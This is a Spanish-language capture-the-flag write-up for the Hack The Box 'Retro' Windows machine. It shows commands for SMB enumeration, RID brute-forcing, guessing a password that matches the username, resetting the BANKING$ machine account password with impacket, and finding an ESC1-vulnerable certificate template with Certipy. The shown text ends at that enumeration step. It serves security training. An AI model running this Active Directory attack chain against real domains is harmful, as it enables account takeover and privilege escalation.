----------

------



## 🕹️ HTB - Retro _(Windows · Easy)_

> 🌐 **IP objetivo:** `10.129.207.162`  
> 📅 **Fecha:** 24/06/2025  
> 🧠 **Modo:** Guided Mode  
> 💻 **Sistema:** Windows Server  
> 🎯 **Objetivo inicial:** Encontrar el FQDN del Domain Controller


## 🧩 Tarea 1 - ¿Cuál es el FQDN del Domain Controller?

### 🔍 Paso 1. Escaneo inicial con Nmap

Ejecutamos el escaneo típico completo:

```bash
sudo nmap -sS -sC -sV -Pn -p- 10.129.207.162
```

Este escaneo detecta:

- Puertos abiertos
    
- Servicios y versiones
    
- Scripts por defecto






🔽 El escaneo revela muchísima información relacionada con Active Directory, entre lo más destacable:

- **Puertos AD**: 88 (Kerberos), 389 (LDAP), 445 (SMB), 636 (LDAPS), 3268/3269 (GC)
    
- **Servicios de Windows clásicos**: RPC, NetBIOS, etc.
    
- **Certificados SSL** que revelan nombres internos
    

📌 En múltiples servicios aparece:

```bash
commonName=DC.retro.vl
```

🧠 Esto confirma el FQDN del controlador de dominio.

### ✅ Respuesta final:

> 🟩 **DC.retro.vl**


## 📁 Tarea 2 - ¿Qué recurso SMB no por defecto es accesible con la cuenta guest?

**🛠️ Técnica usada:**  
Se enumeraron los recursos compartidos (SMB Shares) usando `smbclient` con usuario `guest`:

```bash
smbclient -L //10.129.207.162 -U guest
```

💬 **Resultado:**



📌 **Análisis:**

- `ADMIN$`, `C$` e `IPC$` son recursos por defecto del sistema.
    
- **Recursos no por defecto encontrados:** `NETLOGON`, `Notes`, `SYSVOL`, `Trainees`.
    
- `NETLOGON` y `SYSVOL` son comunes en DCs (Domain Controllers), aunque no estándar en sistemas no-AD.
    
- **✅ El recurso más claramente no estándar aquí es:** `**Trainees**`


✅ **Respuesta:** `Trainees`


## 🧩 Tarea 3 – Enumeración de cuentas (SMB + RID Brute)

> **¿Qué nombre de cuenta se menciona en `Important.txt`?**  
> _Respuesta esperada: solo el nombre de usuario, sin el dominio._


### 🔎 Análisis del fichero `Important.txt`

Primero accedemos al recurso SMB sin autenticación usando el usuario `guest`:

```bash
smbclient //10.129.207.162/Trainees -U guest
```

📂 En el recurso compartido, encontramos el fichero:

```bash
Important.txt
```



📥 Lo descargamos:

```bash
get Important.txt
```



📄 Contenido:



🧠 **Conclusión**: todos los trainees comparten **una única cuenta**.

### 🧰 Enumeración de usuarios con RID brute-force

Como el archivo menciona que hay una única cuenta, usamos `netexec` con `--rid-brute` para descubrirla:

```bash
netexec smb 10.129.207.162 -u guest --password= --rid-brute
```

> 💡 En versiones recientes, el argumento `--password=` es obligatorio aunque sea vacío.

🧾 Resultado (recorte relevante):



🔍 Aquí encontramos al usuario **`trainee`**, que claramente hace referencia a lo que dice el fichero `Important.txt`.

✅ Respuesta final: **trainee**


## 🧩 Tarea 4 – ¿Cuál es la contraseña del usuario `trainee`?

### 🔎 Enunciado

> **What is the trainee user's password?**  
> _(Username without domain)_

### 💡 Pista

> “Given that it's a shared account, it is very likely something easily remembered by a bunch of people. Try the username as the password.”

### 🛠️ Proceso paso a paso

#### 🔸 Intento con una contraseña incorrecta:

```bash
smbclient -U trainee //10.129.207.162/trainees
```

🔐 Se probó con una contraseña incorrecta y se obtuvo:



🔹 Intento con contraseña `trainee` (misma que el usuario):



✅ ¡Acceso concedido!

✅ Respuesta correcta

```bash
trainee
```

### 🧠 Conclusión

- La contraseña era **idéntica al nombre de usuario**, lo que confirma lo sugerido por la pista.
    
- Es una práctica común (pero insegura) en entornos donde varias personas comparten cuentas.
    
- Se ha accedido exitosamente al recurso compartido SMB llamado `Trainees`, donde ya se puede visualizar el archivo `Important.txt` para la siguiente tarea.


## 🧩 Tarea 5 - Enumerar shares accesibles con `trainee`

📌 **Objetivo:** Descubrir qué recurso compartido (_share_) puede ver el usuario `trainee` pero no el usuario `guest`.

### 🛠️ Comando usado

Usamos `netexec` con el flag `--shares` para listar los recursos compartidos accesibles con las credenciales recién obtenidas:


### 🧪 Comprobación previa: Acceso con `guest`

Probamos con el usuario `guest` y observamos los recursos compartidos:

```bash
netexec smb 10.129.207.162 -u guest --password= --shares
```



📥 Resultado:

```bash
Share       Permissions     Remark
-----       -----------     ------
IPC$        READ            Remote IPC
Trainees    READ            Share visible y accesible
Notes                        ❌ Visible pero sin permiso de lectura
```

🔸 Acceso con `trainee` (credenciales: trainee:trainee):

```bash
netexec smb 10.129.207.162 -u trainee --password=trainee --shares
```

📸 _Salida relevante:_



📥 Resultado:

```bash
Share       Permissions     Remark
-----       -----------     ------
IPC$        READ            Remote IPC
Trainees    READ            Compartido con trainee también
Notes        ✅ READ         ¡Ahora accesible!
```

### 🧠 Análisis

🔎 Aunque el recurso `Notes` **también aparece listado para `guest`**, este **no tenía permisos de lectura**, por lo que **no podía acceder**.

👤 El usuario `trainee` **sí tiene permisos de lectura** en `Notes`, lo que marca la diferencia clave entre los dos usuarios.

✅ Respuesta: **notes**


## 🧩 Tarea 6 — Obtener la flag del SMB share `Notes`

### ❓ Enunciado

> **Submit the flag located in the `Notes` SMB share.**  
> ⚠️ La flag debe tener **32 caracteres hexadecimales**.

### 🔐 Credenciales utilizadas

- 👤 Usuario: `trainee`
    
- 🔑 Contraseña: `trainee`


### 🔧 Acceso al recurso compartido `Notes`

Usamos `smbclient` para conectarnos directamente al recurso:

```bash
smbclient //10.129.207.162/Notes -U trainee
```

🔁 Al solicitar la contraseña, introducimos: `trainee`

Una vez dentro:

```bash
smb: \> dir
```

Revisamos los archivos listados, y localizamos uno que contenga la flag (normalmente llamado `user.txt` .



### 📥 Descarga del archivo con la flag

Desde el prompt de `smbclient`, podemos descargarlo con:

```bash
get user.txt
```

Luego lo abrimos localmente:



📌 **Flag encontrada**

### 🧠 Conclusión

- Aunque el recurso `Notes` era visible tanto para `guest` como para `trainee`, **solo `trainee` tenía permisos suficientes para acceder a su contenido**.
    
- Esto resalta la importancia de probar accesos incluso si un recurso es “visible” para cuentas de bajo privilegio.


## 🧩 Tarea 7 - Enumeración de cuentas de máquina (Pre-Windows 2000)

> **¿Qué nombre tiene la cuenta antigua de máquina con compatibilidad pre-Windows-2000?**  

### 🎯 Objetivo

Encontrar una cuenta **de máquina** que represente a sistemas antiguos (pre-Windows 2000).  
Estas cuentas **terminan en `$`**, y suelen tener nombres genéricos o relacionados con roles de compatibilidad.

### 🧠 Pista del enunciado:

> Brute force the RIDs of domain objects using `netexec`.  
> The account name ends with `$`.

## 🛠️ Enumeración con `netexec smb`

Lanzamos el siguiente comando para descubrir cuentas del dominio mediante **RID brute-forcing**:

```bash
netexec smb 10.129.207.162 -u trainee --password=trainee --rid-brute
```

✅ Esta vez usamos credenciales válidas (`trainee:trainee`) para obtener mejor acceso a los SID.



En el resultado se nos listan todos los usuarios y grupos del dominio.  
Nos fijamos especialmente en las cuentas que terminan en **`$`**, ya que suelen ser **cuentas de máquinas**.

🔍 Cuenta relevante encontrada:

```bash
1106: RETRO\BANKING$ (SidTypeUser)
```

## 🏁 Respuesta final

El nombre del objeto de dominio es `BANKING$`, que representa una **cuenta de máquina antigua**, con compatibilidad **pre-Windows 2000**.


## 🧩 Tarea 8 - Error al autenticar como cuenta de máquina

> **¿Cuál es el código de error devuelto al autenticarse como la cuenta de máquina `BANKING$` con la contraseña por defecto?**

### 🛠️ Paso a paso

#### 🔍 1. Identificación de la cuenta

En la tarea anterior (`Task 7`) descubrimos una cuenta de tipo máquina con el nombre:

```bash
BANKING$
```

Las cuentas de máquina en Active Directory suelen terminar en **`$`** y tienen credenciales predefinidas cuando son creadas por el sistema (por ejemplo, la contraseña por defecto suele ser igual que el nombre de la cuenta).

#### 📡 2. Intento de autenticación usando `smbclient`

Probamos a autenticarnos usando `smbclient` con la contraseña vacía:

```bash
smbclient //10.129.207.162/ADMIN$ -U BANKING$
```

Resultado:

```bash
session setup failed: NT_STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT
```



### 🧠 Conclusión

- Las cuentas de máquina tienen restricciones específicas en Active Directory.
    
- Incluso si la contraseña es válida, la autenticación SMB directa puede fallar si la cuenta no está autorizada para logins interactivos o desde ciertas estaciones.
    
- Este tipo de pruebas permiten entender mejor los controles de seguridad y el funcionamiento de los servicios Windows.


## 🧩 Tarea 9 - Retro (HTB)

### ❓ Enunciado

**What is the name of the Certificate Authority (CA) Common Name (CN) that issues certificates in the Active Directory Certificate Services environment?**

### 🎯 Objetivo

Identificar el **nombre común (CN)** de la **Autoridad Certificadora (CA)** que emite certificados en el entorno de AD CS.

### 🧰 Herramienta usada: `Certipy`

Primero instalamos **Certipy** manualmente desde el repositorio oficial, ya que no estaba disponible por defecto.

```bash
git clone https://github.com/ly4k/Certipy.git
cd Certipy
git checkout 4.6.0
python3 -m venv venv
source venv/bin/activate
pip install .
```

ℹ️ Se utilizó la versión `v4.6.0`, compatible con la mayoría de entornos de HTB actuales.

Comprobamos que esté bien instalada:


### 🧠 Comando ejecutado

```bash
certipy find -target 10.129.207.162 -u trainee@retro.vl -p trainee
```

También funcionaría así:

```bash
certipy find -u trainee@retro.vl -p trainee -dc-ip 10.129.207.162
```

### 🧩 Explicación de cada parámetro:

|Parámetro|Significado|Detalle técnico|
|---|---|---|
|`certipy find`|Ejecuta la función de enumeración|Busca plantillas de certificado, autoridades certificadoras (CA), configuraciones vulnerables, etc.|
|`-target 10.129.207.162`|Dirección IP del Domain Controller|Es necesario para conectar contra el servicio LDAP del controlador de dominio si no tienes resolución DNS.|
|`-u trainee@retro.vl`|Usuario con el que autenticarse|Se usa en formato UPN (User Principal Name) para que la autenticación LDAP funcione correctamente.|
|`-p trainee`|Contraseña del usuario|Es la contraseña en texto plano que Certipy usará para autenticarse en el DC vía LDAP.|
📝 _Nota: en algunos entornos puede ser necesario usar el formato `usuario@dominio`, pero en esta máquina bastaba con usar simplemente el nombre de usuario `trainee`._

📌 Resultado relevante:



✅ Por tanto, el nombre común de la autoridad certificadora es:

```bash
retro-DC-CA
```

### 📁 Archivos generados

Certipy genera varios archivos útiles por si se desea analizar en **BloodHound**:

- `*.Certipy.zip`
    
- `*.Certipy.txt`
    
- `*.Certipy.json`


## 🔐 Tarea 10 – Identificación de vulnerabilidad ESC (ADCS)

> **Pregunta:** ¿Cuál es el nombre pseudo ESC específico de la vulnerabilidad encontrada en Retro?

### 🎯 Objetivo

Identificar si existe alguna plantilla de certificado (ADCS) vulnerable que permita la **impersonación** de otros usuarios, y averiguar cuál es su **nombre ESC** (de ESC1 a ESC8).

### 🛠️ Herramienta utilizada

Usamos **Certipy** para enumerar plantillas y detectar vulnerabilidades en un entorno ADCS (Active Directory Certificate Services).

```bash
certipy find -u trainee -p trainee -dc-ip 10.129.207.162
```

📌 **Explicación de los parámetros:**

- `find`: modo de enumeración de plantillas y autoridades.
    
- `-u trainee`: usuario con el que nos autenticamos.
    
- `-p trainee`: contraseña del usuario.
    
- `-dc-ip 10.129.207.162`: dirección IP del Domain Controller.
    

🟢 El comando devuelve correctamente la información y guarda los resultados en varios archivos:

- `202506251619_Certipy.zip`
    
- `202506251619_Certipy.txt`
    
- `202506251619_Certipy.json`


### 🔍 Análisis del archivo generado

Después de ejecutar el comando, Certipy generó varios archivos. Abrí el fichero:

```bash
20250625161519_Certipy.json
```

Dentro de este archivo, que contiene en formato JSON toda la configuración de la CA y sus plantillas, bajando hasta el final del bloque de la plantilla `RetroClients` encontré la sección clave:



### 🧠 ¿Por qué es vulnerable a ESC1?

La combinación de estos tres factores permite un ataque de suplantación de identidad:

1. 👥 `'Domain Computers'` pueden solicitar certificados.
    
2. ✍️ `EnrolleeSuppliesSubject` está habilitado → el solicitante puede definir el CN (Common Name).
    
3. 🔐 El certificado permite `Client Authentication`.
    

🧨 Esto permite que cualquier equipo se haga pasar por cualquier usuario al generar un certificado válido.

---

## 🧩 Tarea 10 - Escalada a `root` mediante ADCS (ESC1)

### 🎯 Objetivo

Explotar la vulnerabilidad **ESC1** en Active Directory Certificate Services (ADCS) para obtener una shell o hash como `Administrator`.

### 🧱 Contexto

Tras comprometer la cuenta `trainee`, descubrimos que el equipo `BANKING$` tenía los mismos privilegios SMB. Sin posibilidad directa de shell, recurrimos al abuso de ADCS usando **Certipy**.

#### 🧩 Dependencias previas (añadir como sección al inicio o final)

Antes de todo esto, necesitas tener instaladas estas herramientas:

```bash
# Certipy
pip install certipy-ad

# Impacket
git clone https://github.com/fortra/impacket
cd impacket && pip install .
```

Para usar `changePassword.py` o `lookupsid.py`:

```bash
cd impacket/examples
```

También puede ser útil:

```bash
sudo apt install python3-venv
sudo gem install evil-winrm
```


## 🧪 Paso a paso:

### 1. 🧾 Modificación de `/etc/hosts`

Para evitar problemas de resolución DNS al trabajar con `dc.retro.vl` y `retro.vl`, editamos `/etc/hosts`:



### 2. 📦 Cambio de contraseña al equipo `BANKING$`

Primero cambiamos la contraseña del equipo `BANKING$` para poder autenticarnos.

```bash
python3 changePassword.py -newpass NuevaPass123 \
'retro.vl/BANKING$:banking@dc.retro.vl' \
--protocol rpc-samr
```


✅ _Password changed successfully_

### 3. ✅ Verificamos acceso con `netexec`

```bash
netexec smb dc.retro.vl -u 'banking$' -p NuevaPass123
```



✅ Acceso confirmado.

### 4. 🔍 Enumeración de plantillas de certificados vulnerables

Buscamos plantillas vulnerables con Certipy:

```bash
certipy find -u 'BANKING$@retro.vl' -p NuevaPass123 -vulnerable -stdout
```



